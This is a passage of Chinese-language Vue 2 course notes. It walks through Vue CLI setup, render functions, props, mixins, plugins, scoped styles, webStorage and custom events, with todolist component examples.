        <School></School>
    </div>
</template>

<script>
// 引入组件
import School from './School'
import Student from './Student'

export default {
    name:'App',
    template:`<App></App>`,
    components:{
        School,
        Student,
    }
}
</script>

<style>

</style>
```

**main.js**

> 在这个文件里面创建 vue 实例,组件的入口

```js
import App from './App.vue'

new Vue({
  el: '#root',
  components: { App },
})
```

**index.html**

> 在这写 vue 要绑定的容器

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <!-- 准备一个容器 -->
    <div id="root"></div>
    <script src="../js/vue.js"></script>
    <script src="./main.js"></script>
  </body>
</html>
```


### 二、使用 Vue 脚手架（CLI）

#### 2.1 说明

1. `Vue 脚手架`是 Vue 官方提供的【标准化开发工具（开发平台）】。
2. 最新的版本是 4.x。
3. 文档: https://cli.vuejs.org/zh/

#### 2.2.具体步骤

1. 如果下载缓慢请配置【npm淘宝镜像】

   > npm config set registry http://registry.npm.taobao.org

2. 全局安装 @vue/cli

   >  npm install -g @vue/cli

3. **切换到创建项目的目录**，使用命令创建项目

   > cd Desktop 切换到桌面
   >
   > vue create xxx

4. 选择使用vue的版本

5. 启动项目

   >  npm run serve

6. 打包项目(项目写完执行，会把html、js、css打包)

   > npm run build

7. 暂停项目 

   > Ctrl+C

> `Vue脚手架`隐藏了所有webpack相关的配置，若想查看具体的webpack配置，请执行
>
> `vue inspect > output.js`

#### 2.3 脚手架文件结构

```
.文件目录
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   └── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
└── package-lock.json: 包版本控制文件
```

**脚手架demo**

1. 直接把单文件组件的 `School.vue` 和 `Student.vue` 两个文件直接复制到components文件夹，不需要修改。

2. App.vue

```html
   <template>
       <div>
           <School></School>
           <Student> </Student>
       </div>
   </template>

   <script>
   // 引入组件
   import School from './components/School'
   import Student from './components/Student'

   export default {
       name:'App',
       template:`<App></App>`,
       components:{
           School,
           Student
       }
   }
   </script>
```
3. main.js
```js
/* 
  该文件是整个项目的入口文件
*/
// 引入Vue
import Vue from 'vue'
// 引入App组件，他是所有组件的父组件
import App from './App.vue'
// 关闭vue的生产提示
Vue.config.productionTip = false

// 创建Vue实例对象---vm
new Vue({
  el: '#app',
  // 下面这行代码，完成了这个功能，就将App组件放入容器中
  render: (h) => h(App),
})// .$mount('#app')

```

4. index.html

```html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8" />
    <!-- 针对IE浏览器的一个特殊配置，含义是让IE浏览器以最高的渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <!-- 开启移动端的理想视口 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <!--BASE_URL 是public所在路径，是绝对路径；配置页签图标  -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico" />
    <!-- 配置网页标题 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 当浏览器不支持js的时候，noscript标签的元素就会被渲染 -->
    <noscript>
      <strong
        >We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work
        properly without JavaScript enabled. Please enable it to
        continue.</strong
      >
    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```

#### 2.4 render函数

> vue.runtime.js:等带runtime的是运行时的vue，缺少模板解析器,只有核心，属于精简版的vue

**插入一个小知识：**

1. 使用 `import` 导入【第三方库】的时候不需要 加` ‘./’`

* 导入我们自己写的：

```js
 import App from './App.vue'
```

* 导入第三方的

```js
 import Vue from 'vue'
```

2. 不需要在 `from ‘vue’` 加 `'./'` 的原因是第三方库 `node_modules` 人家帮我们配置好了。

	 ​	我们通过 import 导入第三方库，在第三方库的 package.json 文件中确定了我们引入的是哪个文件



通过 module 确定了我们要引入的文件。

> 备注：这是`ESM`默认导入的文件，`CommonJS`默认导入`mian`中路径的文件

之前的写法是这样：

```js
import App from './App.vue'

new Vue({
	el:'#root',
	template:`<App></App>`,
	components:{App},
})
```

但是这样写会报错



报错的意思是，是在使用运行版本的 vue ，没有【模板解析器】。

从上面的小知识可以知道，我们引入的 vue 不是完整版的，是【残缺的】（为了【减小vue的大小】）。所以残缺的vue.js 只有通过 `render 函数`才能把项目给跑起来。

**来解析一下render**

```js
// render最原始写的方式
// render是个函数，还能接收到参数a
// 这个 createElement 很关键，是个回调函数
new Vue({
  render(createElement) {
      // render不用this,写两个参数是因为h1是html内置标签，需要赋值，写组件时只需要一个参数
      // 这个 createElement 回调函数能创建元素
      // 因为残缺的vue 不能解析 template，所以render就来帮忙解决这个问题
      // createElement 能创建具体的元素
      return createElement('h1', 'hello')
  }
}).$mount('#app')

```


#### 2.5 关于不同版本的vue

1. `vue.js`与`vue.runtime.xxx.js`的区别：

* (1).vue.js是【完整版】的Vue，包含：【核心功能】+【模板解析器】。
* (2).vue.runtime.xxx.js是【运行版】的Vue，只包含：【核心功能】；【没有】模板解析器。`esm` 就是 `ES6 module`

2. 因为`vue.runtime.xxx.js`没有模板解析器，所以不能使用【template配置项】，需要使用`render函数`接收到的createElement函数去指定具体内容。


#### 2.6 vue.config.js 配置文件

`vue inspect > output.js`可以查看到Vue脚手架的默认配置

> 不能修改

使用`vue.config.js`可以对脚手架进行个性化定制，和`package.json`同级目录，详见 [配置参考 | Vue CLI](https://cli.vuejs.org/zh/config/#vue-config-js)

> lintOnSave:false //关闭语法检查


#### 2.7 ref 与 props以及mixin（混入）

##### 2.7.1 ref属性

1. 被用来给元素或子组件注册引用信息（id的替代者）
2. 应用在`html标签`上获取的是【真实DOM】元素，应用在`组件`标签上是【组件实例对象】（vc）
3. 使用方式：
    1. 打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```
    2. 获取：```this.$refs.xxx```

```html
<template>
  <div>
    <School ref="sch"/>
    <School id="sch"/>
    <h1 v-text="msg" ref="title"></h1>
    <button @click="showDom">点我展示上面的dom</button>
  </div>
</template>

<script>
// 引入School组件
import School from './components/School'

export default {
    name:'App',
    components:{       
        School,
    },
    data(){
       return {msg:'哈哈'}
    },   
    methods: {
        showDom(){
            // console.log(this.msg)
            // 展示整个标签，给哪个标签加ref，vc组件实例对象就帮你收集哪个元素
            // console.log(this.$refs.title) //真实dom元素
            // console.log(this.$refs.sch) //school组件的实例对象(vc)
            console.log(document.querySelector('#sch')) //school组件对应的完整dom结构
        }
    },
}
</script>

```

##### 2.7.2 props配置项

1. 功能：让组件接收【外部】传过来的数据

2. 传递数据：```<Demo name="xxx"/>```

3. 接收数据：

    1. 第一种方式（只接收）：```props:['name'] ```

    2. 第二种方式（限制类型）：```props:{name:String}```

    3. 第三种方式（限制类型、限制必要性、指定默认值）：

        ```js
        props:{
        	name:{
        	type:String, //类型
        	required:true, //必要性
        	default:'老王' //默认值
        	}
        }
        ```

    > 备注：props是【只读的】，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请【复制props的内容到data中一份】，然后去修改data中的数据。

* **vue props传Array/Object类型值，子组件报错解决办法**



> 其实看错误信息也就知道了，就是Props在传值类型为`Object/Array`时，如果需要配置`default`值（如果没有配置default值，则不会有这个报错)，那必须要使用【函数】来return这个default值，而不能像基本数据类型那样直接写default：xxx

```js
//错误写法
props: {
	rlist: {
		type:Array,
		default: [1, 2, 3, 4, 5]
	}
}

//正确写法
props: {
	rlist: {
		type:Array,
		default: function() {
			return [1, 2, 3, 4, 5]
		}
	}
}
//当然，我们可以使用箭头函数来写，还显得简单很多
props: {
	rlist: {
		type:Array,
		default: () => [1, 2, 3, 4, 5]
	}
}

```

> **父组件给子组件传数据**

**app.vue**

```html
<template>
  <div>
    <!-- 加冒号了引号里面当js表达式 -->
    <Student name="李四" :age='42'></Student>
    <hr>
  </div>
</template>

<script>
// 引入Student组件
import Student from './components/Student'

export default {
    name:'App',
    components:{       
        Student,
    },
    data(){
       return {msg:'哈哈'}
    },   
    
}
</script>
```

**student.vue**

```html
<template>
  <div>
    <h1>{{ msg }}</h1>
    <h2>学校姓名：{{ name }}</h2>
    <h2>年龄：{{ myAge+1 }}</h2>
    <button @click="updateAge">修改收到的年龄++</button>
  </div>
</template>

<script>
export default {
   name:'stu-dent',
   data() {
    return {
        msg:'我是一个尚硅谷的学生',
        myAge:this.age,
    }
   }, 
   methods: {
    updateAge(){
      this.myAge ++
    },
   },
  //  props:['name','age'], //简单声明接收，接收到的props不能改

   //  接收的同时对数据进行类型限制
   /* props:{
    name:String,
    age:Number,
   }, */

   //  接收的同时对数据：进行类型限制+默认值的指定+必要性的限制
   props:{
    name:{
      type:String,  //name的类型是字符串
      required:true //name是必须传的
    },
    age:{
      type:Number, 
      default:99, //默认值
    },
   }
   
}
</script>

<style>
    div{
        background-color: pink;
    }
</style>
```

##### 2.7.3 mixin混入

1. 功能：可以把多个组件【共用的配置】提取成一个混入对象

2. 使用方式：

* 第一步【定义】混合：

    ```js
    {
        data(){....},
        methods:{....}
        ....
    }
    ```

* 第二步【使用】混入：

    ​	全局混入：```Vue.mixin(xxx)```
    ​	局部混入：```mixins:['xxx']	```

> **注意：**
>
> * 混合时如果`mixin`里面的数据和【调用mixin的.vue文件重名】，以【调用mixin的.vue文件】为准
> * 对于生命周期钩子，则是都要调用，`mixin`里面的先调用
> * 使用全局混入时，当前项目所有文件都可以使用这个`mixin`

> 局部混入

**mixin.js**

```js
export const hunhe = {
  methods: {
    showName() {
      alert(this.name)
    },
  },
  mounted() {
    console.log('你好啊')
  },
}
export const hunhe2 = {
  data() {
    return {
      x: 1,
      y: 2,
    }
  },
}
```

**school.vue**

```js
<template>
  <div>
    <h2 @click="showName">学校姓名：{{ name }}</h2>
    <h2>地址：{{ address }}</h2>
   
  </div>
</template>

<script>
// 引入一个hunhe
// 分别暴露用{}
// import {hunhe,hunhe2} from '../mixin'
export default {
   name:'sch-ool',
   data() {
    return {
        name:'尚硅谷',
        address:'成都',
        x:111
    }
   }, 
  //  mixins:[hunhe,hunhe2]
}
</script>

<style>
    div{
        background-color: pink;
    }
</style>
```

> 全局混合

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'
// 全局混合
import { hunhe, hunhe2 } from './mixin'
// 关闭Vue的生产提示
Vue.config.productionTip = false
Vue.mixin(hunhe)
Vue.mixin(hunhe2)

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
})

```


#### 2.8 插件和scoped样式

##### 2.8.1 插件

1. 功能：用于【增强Vue】

2. 本质：包含`install方法`的一个对象，install的第一个参数是`Vue`，第二个以后的参数是插件使用者传递的数据。

3. 定义插件：

    ```js
    对象.install = function (Vue, options) {
        // 1. 添加全局过滤器
        Vue.filter(....)

        // 2. 添加全局指令
        Vue.directive(....)

        // 3. 配置全局混入(合)
        Vue.mixin(....)

        // 4. 添加实例方法
        Vue.prototype.$myMethod = function () {...}
        Vue.prototype.$myProperty = xxxx
    }
    ```

4. 使用插件：```Vue.use()```

>  `Vue.use`执行之后，会自动调用`install`方法，所有组件就可以使用里面定义的东西。

**plugins.js**

```js
export default {
  // 形参是Vue构造者，不是vm
  install(Vue, x, y) {
    // 定义全局过滤
    Vue.filter('mySlice', function (value) {
      return value.slice(0, 5) //截取前五位
    })

    console.log(x + y)
    // 定义全局指令
    Vue.directive('fbind', {
      // 指令与元素成功绑定时(一上来)
      bind(element, binding) {
        console.log(binding)
        element.value = binding.value
      },
      // 指令所在元素被插入页面时
      inserted(element, binding) {
        element.focus()
      },
      //  指令所在的模板被重新解析时
      update(element, binding) {
        element.value = binding.value
      },
    })

    // 定义混入
    Vue.mixin({
      data() {
        return {
          x: 1,
          y: 2,
        }
      },
    })

    // 在Vue原型上添加一个方法(vm和vc都能用了)
    Vue.prototype.hello = () => {
      alert('hello')
    }
  },
}
```

**main.js**

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'
// 引入插件
import plugins from './plugins'
// 关闭Vue的生产提示
Vue.config.productionTip = false

// 使用插件
Vue.use(plugins, 4, 5)

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
})
```

**school.vue**

```html
<template>
  <div>
    <h2 >学校姓名：{{ name | mySlice}}</h2>
    <h2>地址：{{ address }}</h2>   
  </div>
</template>

<script>

export default {
   name:'sch-ool',
   data() {
    return {
        name:'尚硅谷安德森打开看看打赏',
        address:'成都',
        x:111
    }
   }, 
}
</script>
```

**student.vue**

```html
<template>
  <div>
    <h2>学生姓名：{{ name }}</h2>
    <h2>年龄：{{ age }}</h2>
    <input type="text" v-fbind:value="name">
  </div>
</template>

<script>
export default {
   name:'stu-dent',
   data() {
    return {
        name:'小明',
        age:18,
    }
   }, 
}
</script>
```

##### 2.8.2 scoped样式

1. 作用：让样式在【局部生效】，防止冲突。

2. 写法：```<style scoped>```

3. **注意：**

   > `scoped`不能用于app.vue里面
   >
   > 因为app.vue是所有人共有的

```html
<style lang="less">
  // 该方式可以指定样式编译语言
  .demo{
		background-color: pink;
		.atguigu{
			font-size: 40px;
		}
	}
</style>
```


#### 2.9 组件化编码流程（todolist案例总结）

1. 组件化编码流程：

*  (1).拆分**静态**组件：组件要按照【功能点】拆分，命名不要与html元素冲突。

*  (2).实现**动态**组件：考虑好数据的【存放位置】，数据是一个组件在【用（读/写）】，还是一些组件在用：
  * 1).一个组件在用：放在组件自身即可。

  *  2). 一些组件在用：放在他们共同的父组件上（**状态提升**）。

    > **状态数据**：数据一改，整个页面都会变

  *  (3).实现交互：从绑定事件开始。

2. props适用于：

*  (1).父组件 ==> 子组件 通信
*  (2).子组件 ==> 父组件 通信（要求父先给子【一个函数】）

3. 使用`v-model`时要切记：`v-model`绑定的值不能是props传过来的值，因为props是【不可以修改】的！
4. props传过来的若是【对象类型】的值，修改对象中的属性时Vue不会报错，但【不推荐】这样做。

* **app.vue**

```html
<template>
  <div class="container banner">
    <My-header :addTodo="addTodo"></My-header>
    <My-List :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></My-List>
    <My-footer :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></My-footer>

  </div>
</template>

<script>
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
import MyFooter from './components/MyFooter.vue'


export default {
    name:'App',
    components:{
        MyHeader,
        MyFooter,
        MyList       
    },
    data() {
      return {
       todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'喝酒',done:false},
        {id:'003',title:'开车',done:true},
       ]
      }
    },
    methods: {
      // 添加一个todo
      addTodo(todoObj){
        // 最前面追加todoObj
        this.todos.unshift(todoObj)
      },
      // 勾选或取消勾选一个todo
      checkTodo(id){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.done =!todo.done
        }
       })
      },
      // 删除todo
      deleteTodo(id){
       this.todos = this.todos.filter((todo)=> todo.id !== id) 
      },
      // 全选/取消全选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done
        })
      },
      // 清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
          // 留下todo.done为false的对象
          return !todo.done
        })
      }
    },
    
}
</script>

<style>
 *{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
 }
  li{
  list-style: none;
 }
  button{
    padding:0 10px ;
    height: 30px;
    border-radius: 5px;
    color:#fff;
    background-color: rgb(182, 42, 42);
  }
  .banner{
    width: 400px;
    margin: 0px auto;
  }
  .container{
    padding-top: 10px;
    width: 410px;
    border: 1px solid #ccc;
    border-radius: 5px;
  }
</style>
```

* **myheader.vue**

```html
<template>
  <div class="todo-header banner">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认:" v-model="title"  @keyup.enter="add">
  </div>
</template>

<script>
import {nanoid} from 'nanoid'
export default {
    name:'My-header',
    props:['addTodo'],
    data() {
      return {
        title:''
      }
    },
    methods: {
      add(){
        // 非空判断,校验数据(去除空格)
        if(!this.title.trim()){
          return alert('输入不能为空')
        }
        /* 
        获取当前输入框数据：方法1 ：e.target.value
        获取当前输入框数据：方法2 ：双向绑定(v-model)，但是需要在data里面配置属性 */

        // 将用户的输入包装为todo对象(不能重复的设置id=>nanoid(精简)=>uuid(完整))
        const todoObj ={id:nanoid(),title:this.title,done:false}
        // 通知App组件去添加一个todo对象
        this.addTodo(todoObj)
        // 清空输入
        this.title = ''
      }
    },
}
</script>

<style lang="less" scoped>
  .todo-header{
    width: 400px;
    height: 30px;
    input{
      padding: 8px;
      margin-bottom: 10px;
      width: 100%;
      height: 100%;
      border-radius: 5px;
      // outline-style: none;
      border: 1px solid #ccc;
      &:hover{
        border: 1px solid skyblue;
      }
    }
   
  }
</style>
```

* **mylist.vue**

```html
<template>
<ul class="todo-main"> 
    <my-item 
    v-for="todoObj in todos" 
    :key="todoObj.id" 
    :todo="todoObj" 
    :checkTodo="checkTodo"
    :deleteTodo="deleteTodo"
    ></my-item>
    
 </ul>
</template>

<script>

import MyItem from './MyItem.vue'
export default {
    name:'My-list',
    components:{MyItem,},
    props:['todos','checkTodo','deleteTodo']
}
</script>

<style scoped>
  .todo-main{
    padding: 10px 0 50px 0;
  }  
</style>
```

* **myitem.vue**

```html
<template>
   <li class="item banner">
    <input 
    type="checkbox" 
    :checked="todo.done" 
    @click="handleCheck(todo.id)"
    >
    <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
    <!-- <input 
    type="checkbox" 
    v-model="todo.done"
    > -->
    <span>{{ todo.title }}</span>
    <button @click="handleDelete(todo.id)">删除</button>
   </li>
</template>

<script>
export default {
  name:'My-item',
  // 声明接收toDo对象
  props:['todo','checkTodo','deleteTodo'],
  methods:{
    // 勾选/取消勾选
    handleCheck(id){
      // 通知App组件将对应的todo对象的done值取反
      this.checkTodo(id)
    },
    // 删除
    handleDelete(id){
      if(confirm('确认删除吗')){
        this.deleteTodo(id)
      }
    }
  }
}
</script>

<style scoped>
  li.item{
    margin-bottom: 5px;
    padding-left: 10px;
    border: 1px solid #ccc;
    width: 400px;
    height: 30px;
    border-radius: 5px;
    line-height: 28px;
  }
  li.item:hover{
    background-color: #ccc;
  }
  button{
    float: right;
    display: none;
  }
  button:hover{
    color: #ccc;
  }
  li.item:hover button{
    display: block;
  }
  span{
    margin: 0 4px;
  }
</style>
```

* **myfooter.vue**

```html
<template>
  <div class="todo-footer banner" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll">  -->
      <input type="checkbox" v-model="isAll"> 
        <span>已完成：{{doneTotal}}</span>/
        全部：{{total}}
    </label>
    <button @click="clearAll">清除已完成任务</button>

  </div>
</template>

<script>

export default {
    name:'My-footer',
    props:['todos','checkAllTodo','clearAllTodo'],
    data(){
      return {
        complete:1,       
      }
    },
    computed:{
      total(){ 
        return this.todos.length
      },
      doneTotal(){
       /*  普通方法  
        let i =0
        this.todos.map((item)=>{
        if(item.done){
            i++
          }
        })
        return i */

        // reduce 条件统计  pre是初始值0，第二次调用函数的pre是第一次调用函数的返回值,最后一次的pre的值为当前函数返回值；current是当前数据(todo项)
        /* const x = this.todos.reduce((pre,current)=>{
          return pre + (current.done ? 1 : 0)
        },0)
        console.log(x) */
        return this.todos.reduce((pre,todo)=> pre + (todo.done ? 1 : 0)
        ,0)
      },
      // 简写，只被读取不被修改
      isAll:{
        get(){
           // 总数大于0且总数和完成任务相同
          return this.total === this.doneTotal && this.total > 0
        },
        set(value){
          // value是布尔值，选中checkbox就是true，反之，false
          this.checkAllTodo(value)
        }
       
      }
    },
    methods: {
      /* checkAll(e){
        this.checkAllTodo(e.target.checked)
      } */
      clearAll(){
        if(confirm('确认清除已完成任务吗?')){
          this.clearAllTodo()
        }
      }
    },
   
}
</script>

<style lang="less" scoped>
  .todo-footer{
    display: flex;
    justify-content: space-between;
    align-items: center;
    padding:0 8px;
    width: 400px;
    height: 50px;
    border-radius: 5px;
    span{
      margin-left: 20px;
    }
  }
</style>
```


#### 2.10 webStorage

1. 存储内容大小一般支持【5MB】左右（不同浏览器可能还不一样）

2. 浏览器端通过 `Window.sessionStorage `和 `Window.localStorage `属性来实现本地存储机制。

3. 相关API：

    1. ```xxxxxStorage.setItem('key', 'value');```
       * 该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。
    2. ```xxxxxStorage.getItem('person');```
        * 该方法接受一个键名作为参数，返回键名对应的值。
    3. ```xxxxxStorage.removeItem('key');```
        * 该方法接受一个键名作为参数，并把该键名从存储中删除。
    4. ``` xxxxxStorage.clear()```
        * 该方法会清空存储中的【所有数据】。

4. 备注：

    1. SessionStorage存储的内容会随着浏览器窗口关闭而消失（作用域为一次会话）。
    2. LocalStorage存储的内容，需要手动清除才会消失。
    3. ```xxxxxStorage.getItem(xxx)```如果xxx对应的value获取不到，那么getItem的返回值是null。
    4. ```JSON.parse(null)```的结果依然是null。

**localStorage**

> sessionStorage和localStorage的api一样，以下代码中localStorage换为sessionStorage即可使用

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <h2>localStorage</h2>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button>
    <button onclick="deleteAllData()">点我删除所有数据</button>

    <script>
      let p = { name: '张三', age: 18 }
      //   console.log(p.toString()) //[object Object]
      function saveData() {
        // 括号里面必须是字符串，不是也要强制类型转换(toString())
        localStorage.setItem('msg', 'hello')
        localStorage.setItem('msg2', 666)
        // localStorage.setItem('person', p) //[object Object]
        localStorage.setItem('person', JSON.stringify(p)) //{"name":"张三","age":18}
      }
      function readData() {
        console.log(localStorage.getItem('msg'))
        console.log(localStorage.getItem('msg2'))
        const result = localStorage.getItem('person')
        console.log(JSON.parse(result))
        // 读取没有的数据，结果为null
        console.log(localStorage.getItem('msg3'))
      }
      function deleteData() {
        localStorage.removeItem('msg')
      }
      function deleteAllData() {
        localStorage.clear('msg')
      }
    </script>
  </body>
</html>
```

##### 2.10.1 todolist本地存储案例

* **App.vue**

  > 代码只有app.vue有修改

```html
<template>
  <div class="container banner">
    <My-header :addTodo="addTodo"></My-header>
    <My-List :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></My-List>
    <My-footer :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></My-footer>

  </div>
</template>

<script>
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
import MyFooter from './components/MyFooter.vue'


export default {
    name:'App',
    components:{
        MyHeader,
        MyFooter,
        MyList       
    },
    data() {
      return {
        // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中(状态提升)
       todos:JSON.parse(localStorage.getItem('todos')) || []
      }
    },
    methods: {
      // 添加一个todo
      addTodo(todoObj){
        // 最前面追加todoObj
        this.todos.unshift(todoObj)
      },
      // 勾选或取消勾选一个todo
      checkTodo(id){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.done =!todo.done
        }
       })
      },
      // 删除todo
      deleteTodo(id){
       this.todos = this.todos.filter((todo)=> todo.id !== id) 
      },
      // 全选/取消全选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done
        })
      },
      // 清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
          // 留下todo.done为false的对象
          return !todo.done
        })
      }
    },
    watch:{
      todos:{
        // 开启深度监视，当对象中的属性发生变化时，也能监视
        deep:true,
        handler(value){
          // value是todos发生变化后的返回值(新的todos),todo是对象
          localStorage.setItem('todos',JSON.stringify(value))
        }
        
      }
    }
}
</script>

<style>
 *{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
 }
  li{
  list-style: none;
 }
  button{
    padding:0 10px ;
    height: 30px;
    border-radius: 5px;
    color:#fff;
    background-color: rgb(182, 42, 42);
  }
  .banner{
    width: 400px;
    margin: 0px auto;
  }
  .container{
    padding-top: 10px;
    width: 410px;
    border: 1px solid #ccc;
    border-radius: 5px;
  }
</style>
```


#### 2.11 组件的自定义事件

1. 一种组件间通信的方式，适用于：`子组件 ===> 父组件`

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件【事件的回调在A中】。

3. 绑定自定义事件：

    1. 第一种方式，在父组件中：```<Demo @atguigu="test"/>```  或 ```<Demo v-on:atguigu="test"/>```

    2. 第二种方式，在父组件中：

        ```js
        <Demo ref="demo"/>
        ......
        mounted(){
           this.$refs.xxx.$on('atguigu',this.test)
        }
        ```

    3. 若想让自定义事件只能触发一次，可以使用```once```修饰符，或```$once```方法。


4.  绑定自定义事件：```this.$emit('atguigu',数据)```
5. 解绑自定义事件```this.$off('atguigu')```
6. 组件上也可以绑定【原生DOM事件】，需要使用```native```修饰符。
6. 注意：通过```this.$refs.xxx.$on('atguigu',回调)```绑定自定义事件时，回调【要么配置在methods中】，【要么用箭头函数】，否则this指向会出问题！

* **app.vue**

```html
<template>
  <div>
    <h1>{{ msg }},学生姓名是：{{ studentName }}</h1>
    <!-- 由于v-on在student组件标签上，所以是给student组件的实例对象vc绑定了atguigu事件，如果以后有人触发了这个事件(atguigu),demo函数就会被调用  -->
    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据(第一种写法：使用@或v-on)-->
    <!-- <student v-on:atguigu="getStudentName" @demo="m1"></student> <hr> -->
    
    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据(第二种写法:使用ref,更灵活)-->
    <student ref="student" @click.native="show"></student> <hr>

    <!-- 通过父组件给子组件传递函数类型的props实现：子给父传递数据-->
    <School :getSchoolName="getSchoolName"></School>
    <hr>
  </div>
</template>

<script>
import School from './components/School.vue'
// 引入Student组件
import Student from './components/Student'

export default {
    name:'App',
    components:{       
        Student,
        School
        
    },
    data(){
       return {
        msg:'哈哈',
        studentName:''
      }
    },   
    methods: {
      getSchoolName(name){
        console.log('app收到了学校名!',name);
      },
      getStudentName(name,...params){
        console.log('app收到了学生名!',name,params);
        this.studentName = name
      },
      m1(){
      console.log('demo被触发了');
      },
      show(){
        alert(111)
      }
    },
    mounted() {
      setTimeout(()=>{   
        this.$refs.student.$on('atguigu',this.getSchoolName) //绑定自定义事件
        // this.$refs.student.$once('atguigu',this.getSchoolName) //绑定自定义事件(一次性)
      },3000)
    },
    
}
</script>
```

* **student.vue**

```html
<template>
  <div class="student">
    <h2 >学生姓名：{{ name }}</h2>
    <h2>年龄：{{ age }}</h2>
    <h2>当前求和为：{{ number }}</h2>
    <button @click="add">点我number++</button>
    <button @click="sendStudentName">把学生名给app</button>
    <button @click="unbind">解绑atguigu事件</button>
    <button @click="death">销毁当前的student组件的实例(vc)</button>
  </div>
</template>

<script>

export default {
   name:'s-tudent',
   data() {
    return {
        name:'小明',
        age:18,
        number:0
    }
   }, 
   methods: {
    sendStudentName(){
      //$emit() 触发student组件实例身上的atguigu事件
      this.$emit('atguigu',this.name,888,66,99)
      // this.$emit('demo')
    },
    // 解绑
    unbind(){
      this.$off('atguigu') //解绑一个自定义事件
      // this.$off(['atguigu','demo']) //解绑多个自定义事件
      // this.$off() //解绑所有的自定义事件
    },
    death(){
      this.$destroy() //销毁了当前的student组件的实例,销毁后所有student实例的自定义事件全都不起作用了
    },
    add(){
      console.log('app被调用了');
      this.number++
    }
   },
}
</script>

<style scoped>
.student{
  background-color: skyblue;
}
</style>
```

* **school.vue**

```html
<template>
  <div class="school">
    <h2 >学校姓名：{{ name }}</h2>
    <h2>地址：{{ address }}</h2>   
    <button @click="sendSchoolName">把学校名给app</button>
  </div>
</template>

<script>
export default {
   name:'s-chool',
   props:['getSchoolName'],
   data() {
    return {
        name:'尚硅谷',
        address:'成都',
    }
   }, 
   methods: {
    sendSchoolName(){
      this.getSchoolName(this.name)
    }
   },
}
</script>

<style lang="less">
  .school{
    background-color: pink;
  }
</style>
```

**todolist自定义事件案例**

**app.vue**

```html
<template>
  <div class="container banner">
    <!--给myheader组件添加了一个自定义事件 addTodo ,事件回调也是addTodo-->
    <My-header @addTodo="addTodo"></My-header>
    <My-List :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></My-List>
    <My-footer :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"></My-footer>

  </div>
</template>

<script>
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
import MyFooter from './components/MyFooter.vue'


export default {
    name:'App',
    components:{
        MyHeader,
        MyFooter,
        MyList       
    },
    data() {
      return {
        // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中(状态提升)
       todos:JSON.parse(localStorage.getItem('todos')) || []
      }
    },
    methods: {
      // 添加一个todo
      addTodo(todoObj){
        // 最前面追加todoObj
        this.todos.unshift(todoObj)
      },
      // 勾选或取消勾选一个todo
      checkTodo(id){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.done =!todo.done
        }
       })
      },
      // 删除todo
      deleteTodo(id){
       this.todos = this.todos.filter((todo)=> todo.id !== id) 
      },
      // 全选/取消全选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done
        })
      },
      // 清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
